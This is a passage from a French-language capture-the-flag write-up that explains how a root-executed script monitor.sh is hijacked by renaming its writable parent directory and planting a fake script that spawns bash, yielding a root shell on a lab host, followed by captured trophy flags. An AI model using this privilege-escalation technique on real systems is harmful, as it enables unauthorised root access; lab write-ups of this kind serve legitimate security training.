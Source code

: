et quand on choisit l'option 3, on voit être **root**, ce qui signifie que l'exécution est fait comme root. Alors, en luiggi il suffit de changer le contenu du fichier `monitor/monitor.sh`. Le problème ici c'est qu'on n'a pas des droits pour écriture dans le fichier `monitor.sh`:

```
luiggi@web3:~/monitor$ ls -la
total 12
drwxr-xr-x 2 root   root   4096 Apr 27 10:11 .
drwxr-xr-x 6 luiggi luiggi 4096 Apr 27 14:30 ..
-rw-r--r-- 1 root   root   1203 Apr 22 23:48 monitor.sh
```

Par contre, on a le droit de modifier le dossier père: 

```
luiggi@web3:~$ ls -la
total 60
drwxr-xr-x 6 luiggi luiggi  4096 Apr 27 14:30 .
drwxr-xr-x 3 root   root    4096 Mar 18  2021 ..
...

drwxr-xr-x 2 root   root    4096 Apr 27 10:11 monitor

...
```

Alors il suffit de juste changer le nom du dossier `monitor` et créer une fake dossier `monitor` et créer une fichier qui s'appelle `monitor.sh` dedans:

```
luiggi@web3:~$ ls
monitor  monitor-changed  trophee.trp
```

le contenu du fichier `monitor.sh` c'est une commande pour ouvrir bash, pour que lorsq'on exécute la commande SSH à partir de joshua, il ouvre le bash:

```bash
#!/bin/bash
/bin/bash
```

Enfin, lorsqu'on fait la commande: on root la machine 3 à partir de **joshua@web1**

```
root@web1:/home/joshua# ssh -i .ssh/id_rsa root@10.129.42.12
root@web3:~# ls
output.txt  trophee.trp
root@web3:~# cat trophee.trp 
fohj2queethieveic2uiCahphu2Ga1
root@web3:~#
```

## **Trophee 7 - Bonus trophees à partir de web1**

**c9b5616d15f21313f7a7e770b17a67db**
